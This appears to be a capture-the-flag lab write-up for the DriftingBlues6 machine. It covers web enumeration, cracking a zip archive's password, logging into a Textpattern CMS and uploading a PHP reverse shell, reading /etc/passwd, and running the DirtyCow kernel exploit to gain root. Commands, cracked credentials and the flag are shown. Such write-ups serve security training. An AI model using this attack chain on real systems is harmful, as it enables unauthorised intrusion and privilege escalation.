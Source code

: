 Scanning the network with nmap, there's just one port open:

```bashPORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.2.22 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/textpattern/textpattern
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: driftingblues
```

Fuzz the web root:

```bash
$ gobuster dir -u http://192.168.122.219/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.122.219/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/03/01 13:34:27 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 287]
/.htpasswd            (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 292]
/cgi-bin/             (Status: 403) [Size: 291]
/db                   (Status: 200) [Size: 53656]
/index                (Status: 200) [Size: 750]
/index.html           (Status: 200) [Size: 750]
/robots               (Status: 200) [Size: 110]
/robots.txt           (Status: 200) [Size: 110]
/server-status        (Status: 403) [Size: 296]
/textpattern          (Status: 301) [Size: 324] [--> http://192.168.122.219/textpattern/]
Progress: 4579 / 4615 (99.22%)===============================================================
```

Check out `robots.txt` :

```bash
$ curl -s http://192.168.122.219/robots.txt
User-agent: *
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)
```

With the hint in mind, fuzz with `.zip` extension:

```bash
$ gobuster dir -u http://192.168.122.219/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x zip
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.122.219/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              zip
[+] Timeout:                 10s
===============================================================
2023/03/01 13:38:23 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 750]
/db                   (Status: 200) [Size: 53656]
/robots               (Status: 200) [Size: 110]
/spammer              (Status: 200) [Size: 179]
/spammer.zip          (Status: 200) [Size: 179]
```

Download `spammer.zip` and check what's inside:

```bash
$ unzip -l spammer.zip
Archive:  spammer.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       15  2021-03-15 21:46   creds.txt
---------                     -------
       15                     1 file
```

That looks promising. Open it:

```bash
┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/driftingblues6]
└─$ unzip spammer.zip
Archive:  spammer.zip
[spammer.zip] creds.txt password: 
```

It's password protected. Get the hash with zip2john, then crack using rockyou.txt:

```bash
$ zip2john spammer.zip > spammer.hash
ver 2.0 spammer.zip/creds.txt PKZIP Encr: cmplen=27, decmplen=15, crc=B003611D ts=ADCB cs=b003 type=0

┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/driftingblues6]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt spammer.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
myspace4         (spammer.zip/creds.txt)
1g 0:00:00:00 DONE (2023-03-01 13:41) 100.0g/s 2048Kp/s 2048Kc/s 2048KC/s christal..michelle4
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Unzip the contents and read them:

```bash
$ cat creds.txt
mayer:lionheart 
```

Now I have creds to something.
I check out the /textpattern/textpattern endpoint. I get a login screen:

![1](screenshots/1.png)

I use these creds and now have admin privileges over this CMS. In the corner, I can see the version:

![2](screenshots/2.png)

It's Textpattern CMS (v4.8.3). I check searchsploit and find this version is vulnerable:

```bash
$ searchsploit textpattern 4.8
-----------------------------------
 Exploit Title |  Path
-----------------------------------
Textpattern 4.8.3 - Remote code execution (Authenticated)(2)                   | php/webapps/49620.py
TextPattern CMS 4.8.3 - Remote Code Execution (Authenticated)                  | php/webapps/48943.py
Textpattern CMS 4.8.4 - 'Comments' Persistent Cross-Site Scripting (XSS)       | php/webapps/49616.txt
TextPattern CMS 4.8.7 - Remote Command Execution (Authenticated)               | php/webapps/49996.txt
TextPattern CMS 4.8.7 - Remote Command Execution (RCE) (Authenticated)         | php/webapps/50415.txt
TextPattern CMS 4.8.7 - Stored Cross-Site Scripting (XSS)                      | php/webapps/49975.txt
-----------------------------------
Shellcodes: No Results
Papers: No Results
```

I examined some of the RCE exploits. They just involve uploading a file and then calling it from the `/files` endpoint. So I can just upload a php reverse shell (like this [one](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) ) and then execute it to get a shell:

![3](screenshots/3.png)

After I upload my shell, I set up a listener and then fetch the webpage here:

http://192.168.122.219/textpattern/files/revshell.php

I get a shell as www-data:

![4](screenshots/4.png)

```bash
www-data@driftingblues:/home$ whwhoami
www-data
www-data@driftingblues:/home$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@driftingblues:/home$ hostname
driftingblues
www-data@driftingblues:/home$ hostname -I
192.168.122.219
```

`local.txt` is not here and there are no users in the `/home` directory. I checked the contents of `/etc/passwd` to see who is on here:

```bash
www-data@driftingblues:/opt$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
```

Just service accounts. I run linpeas and look for a kernel exploit. ![DirtyCow](https://github.com/firefart/dirtycow) is the first choice.
I bring it onto the machine, compile it and then run it:

```bash
www-data@driftingblues:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
www-data@driftingblues:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: password

Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: 7f5fab02f000
```
![5](screenshots/5.png)

The shell halts at this point, which is expected behavior. I fetch the webpage again and get another shell. I switch users to the (hopefully) added user with root privileges. It works, and I collect the only flag here, `proof.txt`:

```bash
www-data@driftingblues:/$ su firefart
Password: password

firefart@driftingblues:/# cd /root
firefart@driftingblues:~# ls -la
total 20
drwx------  3 firefart root 4096 Mar  1 12:32 .
drwxr-xr-x 23 firefart root 4096 Mar 17  2021 ..
drwx------  2 firefart root 4096 Mar 17  2021 .aptitude
-rw-------  1 firefart root  607 Aug  9  2022 .bash_history
-rw-r--r--  1 firefart root   33 Mar  1 12:32 proof.txt
firefart@driftingblues:~# cat proof.txt
6f52f239d99ec0d454add1664360bd42
firefart@driftingblues:~# whoami
firefart
firefart@driftingblues:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@driftingblues:~# hostname
driftingblues
firefart@driftingblues:~# hostnam e-I
bash: hostnam: command not found
firefart@driftingblues:~# hostname -I
192.168.122.219
```

![6](screenshots/6.png)

